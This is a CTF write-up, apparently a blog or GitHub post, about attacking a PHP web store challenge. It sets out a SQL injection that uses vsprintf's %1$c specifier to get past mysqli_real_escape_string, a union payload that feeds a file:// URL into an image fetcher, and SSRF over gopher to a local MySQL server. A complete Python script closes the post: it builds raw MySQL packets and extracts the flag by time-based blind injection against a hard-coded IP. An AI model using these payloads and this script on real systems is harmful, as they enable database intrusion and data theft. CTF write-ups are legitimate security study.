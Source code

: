So lets continue with the most hard task in this ctf , suggest you to try it , its still up for some days 

Ok the task was about web store , so you can buy some Tet as the task name :p 
![image](https://user-images.githubusercontent.com/7364615/35495325-aeef2cf4-04c0-11e8-86f0-f052c75800f8.png)

The orgz put also source code so we can check and and look for vuln part  `http://128.199.179.156/src.tar.gz`

Lets start look at the code and try to get it :D

Later , we can see that there is some place where we can control it 

![image](https://user-images.githubusercontent.com/7364615/35495452-40e69278-04c1-11e8-91d8-6ebf64cd8975.png)

`$_GET['uid']` was passed directly to the query , but thats was not so easy guys :p , there was filter for sure :D 

![image](https://user-images.githubusercontent.com/7364615/35495516-8042b1e0-04c1-11e8-94b7-743351c9c730.png)

`mysqli_real_escape_string` was here waiting for us , but there is little mistake here make all code weak 

![image](https://user-images.githubusercontent.com/7364615/35495681-6aa36d6a-04c2-11e8-956b-fd649c4cacd9.png)

So here vsprintf work as in C ,we can exploit it like format string 

So let me show my friend final exploit which maked us enable to manage the sqli and control it 100%

`
%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -
`

`
PS : 0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 = fIle:///var/www/html/ok.jpg 
`

So let me explain this payload to make it easy for you 

Here we have 

`
$prepare_qr = $jdb->addParameter("SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s",  $_GET['uid']);
$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
$result = $jdb->fetch_assoc($prepare_qr);
`

means here if we manipulate something how we can inject quote without make the filter remove it 

As we have `vsprintf`, we can send %c and convert any ASCII code to char 

`
%c - The character according to the ASCII value
`

means if our unsername : %1$c it will put ASCII code in our query but converted to char 

`
39 = > '
`

and thats all what we need to make the bypass here 

This is the normal query , notice in the code we have 2x prepares  of this query , which make us manipulate the gid again :D 

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%s' and user='%s';
`

Lets see Hacker query :D

Note first the username:

```
Username : 39 /*test*/ 

(39 already used :D  , test as comment so its 39 only in final query)
```

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -' and user='39 /*test*/';
`

Here %1$c will be replaced by 39 and as we used %c it will do the job for us :D , so it will be single quote HaHa

And here the SQL done ! next please :D 

For sure we cant extract the flag from database usign just SQLI, because the user used here have just access to on database and not flag database

![image](https://user-images.githubusercontent.com/7364615/35496299-bd177d72-04c5-11e8-8dba-84c3ce376e40.png)

So we have 3 column extracted from the database, the 3rd one is sended to watermark_me, lets take a look at it

![image](https://user-images.githubusercontent.com/7364615/35496319-e35a5f0e-04c5-11e8-8d26-25ca499a8b3a.png)

It just do some image stuff , but our input sended to get_data which end us to exploit SSRF :D WHAT A DAY

OK, here we will use the SSRF to extract flag from database using the use already with privilege ,which is fl4g_m4n4g3r as mention in code

To do this we need to communicate with mysql , gopher can do this for us

So what we will do to make this as fast as we can , is the setup all this locally and check mysql traffic using

`
tcpdump -i lo -n dst port 3306 -w mysql.pcap
`

Then we just check the packet and make use it to exploit this last step 

unfortunately in our exploit we was missing the QUIT request ,then we notice that and make the exploit work perfectly

Here we choice to make `time based blind sql injection` 

Here is the final exploit 

```
#!/bin/bash
import struct 
import binascii
from binascii import hexlify
import requests
import time

cookies = {
    'PHPSESSID': '5icps1lfga9oqrsr5enundodv6',
}

auth = bytearray([0xb6, 0x0, 0x0,0x1,0x05, 0xa2, 0x3f, 0x00,0x00,0x00,0x00,0x01,0x08,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00] 
    + list(b'fl4g_m4n4g3r') + [0x00,0x00,0x6d,0x79,0x73,0x71,0x6c,0x5f,0x6e,0x61,0x74,0x69,0x76,0x65,0x5f,0x70,0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x00,0x71,0x03,0x5f,0x6f,0x73,0x10,0x64,0x65,0x62,0x69,0x61,0x6e,0x2d,0x6c,0x69,0x6e,0x75,0x78,0x2d,0x67,0x6e,0x75,0x0c,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x6e,0x61,0x6d,0x65,0x08,0x6c,0x69,0x62,0x6d,0x79,0x73,0x71,0x6c,0x04,0x5f,0x70,0x69,0x64,0x05,0x31,0x30,0x37,0x30,0x35,0x0f,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x76,0x65,0x72,0x73,0x69,0x6f,0x6e,0x06,0x35,0x2e,0x36,0x2e,0x33,0x30,0x09,0x5f,0x70,0x6c,0x61,0x74,0x66,0x6f,0x72,0x6d,0x06,0x78,0x38,0x36,0x5f,0x36,0x34,0x0c,0x70,0x72,0x6f,0x67,0x72,0x61,0x6d,0x5f,0x6e,0x61,0x6d,0x65,0x05,0x6d,0x79,0x73,0x71,0x6c])

def encode(s):
    return ''.join(map(lambda x: "%{:02x}".format(x), list(s)))

flag = ""
while True:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_!":
        cmd_arr = list(b"select flag from flag.flag where flag like '"+flag+i+"%' and sleep(5)")
        res = len(cmd_arr)+1
        cmd = struct.pack("<b", res) + bytearray([ 0x0, 0x0, 0x0, 0x03] + cmd_arr )
        quit_packet = bytearray([0x1, 0x0, 0x0, 0x0, 0x1])
        ddd = b"gopher://localhost:3306/A" + bytes(encode(auth + cmd + quit_packet))
        payload = "0x"+binascii.b2a_hex(ddd)
        t1 = time.time()
        url = "http://128.199.179.156/info.php?uid=%1$c%20and%201=2%20union%20select%201,2,"+payload+"%20--%20-"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 4.30:
            flag += i
            break
        print "time : "+str(t2 - t1)
        
    print flag

```
And the result :D 

![image](https://user-images.githubusercontent.com/7364615/35496852-0928447e-04c8-11e8-84b9-c83be6757662.png)

it was valid url , which give us the flag 

`
https://tinyurl.com/y9pplum3
`

![image](https://user-images.githubusercontent.com/7364615/35496901-3ba9a3b6-04c8-11e8-91c4-7292bc01d1dc.png)






